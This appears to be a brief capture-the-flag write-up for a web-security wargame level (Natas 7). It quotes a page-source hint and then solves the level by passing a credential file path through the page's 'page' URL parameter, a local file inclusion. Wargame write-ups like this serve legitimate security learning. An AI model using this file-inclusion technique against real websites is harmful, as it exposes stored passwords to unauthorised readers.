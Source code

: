 > This level contains (very bare-bones) home and about pages
- viewing the source code reveals this:
```html
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
- the index pages are set up a way that could allow something other than an html file to be passed through
- so i modified the url like this `index.php?page=/etc/natas_webpass/natas8`
- success!
